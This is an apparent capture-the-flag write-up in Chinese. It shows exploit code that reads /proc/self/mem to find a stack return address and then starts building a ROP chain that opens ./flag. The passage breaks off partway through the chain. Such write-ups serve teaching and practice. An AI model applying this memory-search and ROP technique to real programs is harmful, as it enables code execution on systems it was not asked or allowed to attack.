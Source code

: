 

### 搜索内存定位read ret地址

接下来，就需要读取/proc/self/mem来搜索内存，确定栈地址了

```c
for ( i = 0; i <= 29; ++i )
  {
    sub_FEE();
 ...
```

通过以上逻辑,程序只可以循环使用30次, 前面使用了4次, ，最后还需要用2次,搜索内存只能使用24次.

而每次最多允许读取100000个字节的数据，由此，能搜索2400000个字节的内容，通过调试，观察数据的栈地址，计算它与stack_end的值的差值，做一个大致的范围,由于栈是从高往低增长的，因此，应该从stack_end – x ~ stack_end搜索

```python
	#position stack addr
	offset = 0xf800000
	li('debug---------------')
	#begin_offset ~ stack_end
	stack_begin_offset = stack_end - offset - 24 * 100000
	li('stack_begin_offset ' + hex(stack_begin_offset))
	li('stack_end   ' +        hex(stack_end))

	fid('/proc/self/mem')
    #打开该时起始地址为0,则偏移直接为stack_begin_offset地址
	loc(stack_begin_offset) #loacate in stack_begin_offset
	# searching
	for i in range(0, 24): #内存搜索'/proc/self/mem'来定位栈地址.
		get(100000)
		text = ru('1.Find something')
		if '/proc/self/mem' in text:
			content = text.split('/proc/self/mem')[0] //若找到, 切割该字符串,获取前面的内容长度.
			break
		if i == 23:
			li('not found')
			exit(0)

	v8_addr = stack_begin_offset + i * 100000 + len(content) - 0x14
	li('v8_addr: ' + hex(v8_addr))

	read_ret = v8_addr - (0x60 - 0x08) + 0x20
	li('read_ret: ' + hex(read_ret))
```

### 构造rop链

在这里,只能通过写入read的 ret地址, 因为只有在刚读取完成之后, 返回的地址才不会被覆盖, 其他函数修改是被覆盖的,没有效果.

```python
p = '/proc/self/mem'.ljust(24, '\x00') + p64(read_ret)
	fid(p) # fd as 5

	#rop
    #64位中 三个参数函数的传参方式
	'''
	read(fd, buf, length)
	1 RDI  0x0  #fd
	2 RSI  0x7fd5ffbc3640 ◂— '/proc/self/mem' #buf
	3 RDX  0x28 #length
	'''
	ret = read_ret
	#open  ./flag
	p = p64(pop_rdi_ret) + p64(ret + 15 * 8)
	p += p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(open_plt)
```